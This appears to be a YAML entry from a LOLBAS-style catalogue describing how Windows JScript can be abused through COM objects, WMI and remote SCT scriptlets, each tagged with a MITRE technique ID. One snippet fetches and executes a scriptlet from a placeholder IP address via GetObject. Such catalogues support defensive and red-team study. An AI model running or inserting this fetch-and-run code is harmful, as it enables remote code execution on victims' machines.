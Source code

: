 ```yaml
---
Name: JScript
Description: JScript is a common scripting language on Windows environements. It is Windows implementation of Javascript.
Author: 'Hegusung'
Created: 2024-10-23
Categories:
  - Category: COM Objects
    Description: JScript - COM
    Usecase: JScript can access and execute COM objects
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: Remote SCT
    Description: JScript - SCT
    Usecase: JScript can execute a SCT file using the GetObject function. Remote files can be accessed
    Code: |
      var SCTObj;
      SCTObj = GetObject("script: http://1.2.3.4/script.sct");
      SCTObj.Exec();
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: WMI
    Description: JScript - WMI
    Usecase: JScript can execute a WMI Queries by leveraging com objects
    Code: |
      TODO: Exemple code
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
Detection:
Resources:
  - Link: https://hegusung.github.io/LOLBAS-Project-hegusung.github.io/#/jscript
Acknowledgement:
---
```

